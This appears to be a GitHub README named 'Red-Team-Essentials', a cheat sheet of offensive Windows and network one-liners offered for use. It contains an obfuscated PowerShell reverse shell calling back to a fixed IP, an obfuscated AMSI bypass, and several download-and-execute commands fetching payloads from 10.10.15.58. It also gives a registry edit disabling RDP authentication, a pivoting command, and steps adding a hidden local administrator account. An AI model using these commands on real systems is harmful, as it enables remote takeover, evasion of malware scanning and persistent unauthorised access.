 # Red-Team-Essentials

#Powershell Reverse Shell one Liner (AMSI Bypass)


$ip='192.168.1.114';$port=1337;$client = New-Object System.Net.Sockets.TCPClient -ArgumentList $ip, $port;$s = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};$x = "lol";Set-alias $x ([char]105 + [char]101 + [char]120);while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (lol $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$s.Write($sendbyte,0,$sendbyte.Length);$s.Flush()};$client.Close()

#Powershell Download in V4 and V5

 Invoke-WebRequest "http://10.10.15.58/hex.ps1" -OutFile "C:\Windows\TEMP\hex.ps1" 
 
#Check Powershell Version 

 $PSVersionTable.PSVersion

#Download File Powershell V2 

(New-Object Net.WebClient).DownloadFile('http://10.10.15.58/powerview.ps1', 'C:\users\someuser\Desktop\powerview.ps1') 

#Download Execute Powershell One Liner 

powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.58/payload.ps1')

#AMSI Bypass

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#Execute this on target machine if you get rdesktop's Cred SSP Error while using remotedesktop

 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
 
 #Remote desktop login through domain user credentials 
 
 xfreerdp /u:username /d:adcorp.local /p:"passwordxyz" /v:TARGETIP
 
 #Download Execute powershell
 
 powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.15.58/payload.ps1')|iex"
 
 #Pivoting using sshutle when you have rsa keys 
 
sshuttle -r root@TARGETIP -e "ssh -i rsa" TARGETIPRANGE.0/24


 #Adding user on windows cmd line & adding it to local admin group 
 
net user hexninja lolbr654$@123 /ADD

net localgroup administrators hexninja /ADD

